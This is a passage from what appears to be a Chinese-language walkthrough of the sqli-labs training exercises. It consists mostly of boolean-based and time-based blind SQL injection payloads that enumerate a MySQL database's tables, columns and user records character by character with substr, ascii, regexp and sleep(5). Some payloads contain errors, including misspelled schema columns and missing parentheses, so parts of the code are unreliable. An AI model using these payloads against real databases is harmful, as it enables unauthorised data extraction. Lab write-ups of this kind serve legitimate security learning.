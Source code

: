 - 获取security下的数据表

```sql
# 利用函数substr()、ascii()进行尝试
ascii(substr(select table_name from information_schema.tables where tables_schema=database() limit 0,1), 1, 1))=101 -> e
# 获取表的第二位
substr(table_name, 2, 1)
# 依次类推
table1_name = email
# 获取第二张表
limit 2,1
# 依次类推
table2_name = referers
```

- 获取user表中的列

**RegExp** 正则匹配:[参考链接](https://www.liaoxuefeng.com/wiki/001434446689867b27157e896e74d51a89c25cc8b43bdb3000/001434499503920bb7b42ff6627420da2ceae4babf6c4f2000)

```sql
# 判断user表中是否含有名为username的列
and 1 = (select 1 from information_schema.columns where table_name='users' and column_name regexp '^username' limit 0,1)--+
# 依次类推
username, password
```

- 获取user表中的内容

```SQL
# 利用函数ord()、mid()进行尝试
ORD(MID(SELECT IFNULL(CAST(username AS CHAR), 0X20) FROM security.users ORDER BY id limit 0,1),1,1))=68--+ --> D
# 以此类推
Dump
```

Less 6 替换 `'` 为 `"` 即可。

### Less 9 Blind Time-based

```sql
# Payload
# 猜测数据库
# 正确时直接返回，不正确时等待5秒
AND IF(ascii(substr(database(),1,1))=115,1,sleep(5))--+ -->s
# security
# 猜数据表
AND IF(ascii(substr(SELECT table_name FROM information_schema.tables WHERE table_shema='security' LIMIT 0,1))=101,1,sleep(5))--+
# emails, referers, uagents, users
# 猜Columns
AND IF(ascii(substr(SELECT column_name FROM information_schema.columns WHERE table_name='users' limit 0,1)1,1)=1,1,sleep(5))--+
# id, username, password
# 猜字段
AND IF(ascii(substr((SELECT username FROM users LIMIT 0,1),1,1))=68,1,sleep(5))--+
```
